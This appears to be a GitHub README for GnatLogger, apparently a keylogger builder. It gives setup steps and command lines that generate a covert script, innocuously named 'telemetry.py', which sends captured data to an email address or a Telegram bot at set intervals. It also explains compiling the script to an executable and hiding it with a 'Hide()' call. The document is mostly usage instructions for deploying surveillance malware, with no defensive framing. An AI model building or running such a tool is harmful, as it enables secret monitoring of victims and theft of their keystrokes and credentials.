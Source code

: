 ![Screenshot](https://github.com/UndeadSec/GnatLogger/blob/main/images/gnat.png)

# GnatLogger

### How to install GnatLogger  
`git clone https://github.com/UndeadSec/GnatLogger.git`

`python3 -m venv env`

Activate environment  

`.\env\Scripts\activate.bat`

Install requirements  

`pip install -r requirements.txt`

### Using GnatLogger   

[CLI] Generate script python with your configs using option email

`python gnatlogger.py --force -e youremail@gmail.com -p emailpassword -i 30 -to sentoemail@gmail.com --enableemail`

`--force` Use this option to generate the file without all the necessary arguments.

[CLI] Generate using option Telegram

`python gnatlogger.py --force --uid 990911 -k 203040:YOUTOKENXJK$3 --interval 30 --enabletelegram `  

[Interactive mode]

Just use `python gnatlogger.py` without `--force`

You can use the cli parameters for use in interactive mode

`python gnatlogger.py --uid 990911 -k 203040:YOUTOKENXJK$3 --interval 30`

Then finish setting the variables in interactive mode

### Finally 

Enter on interactive mode and compile the script telemetry.py using option `C`(without debug pyinstaller) or `D`(with debug pyinstaller)

To debug, comment the line `Hide()`

@TODO: Compile script to exe using cli


### Usage  

```
usage: gnatlogger.py [-h] [-e EMAIL] [-p PASSWORD] [-i INTERVAL] [-t TO] [-d DEBUG] [-u UID] [-k TOKEN]
                     [--enabletelegram] [--enableemail] [--force]

Set configs to gerenerate a new file

options:  
  -h, --help            show this help message and exit
  -e EMAIL, --email EMAIL
                        set a new email
  -p PASSWORD, --password PASSWORD
                        set a new password
  -i INTERVAL, --interval INTERVAL
                        set a new interval
  -t TO, --to TO        set send to email
  -d DEBUG, --debug DEBUG
                        Enable debug loggs on gnatlogger script, use DEBUG
  -u UID, --uid UID     uid telegram @myidbot
  -k TOKEN, --token TOKEN
                        token bot telegram
  --enabletelegram      enable telegram as send form
  --enableemail         enable email as send form
  --force               disable interactive and force generate file
  ```
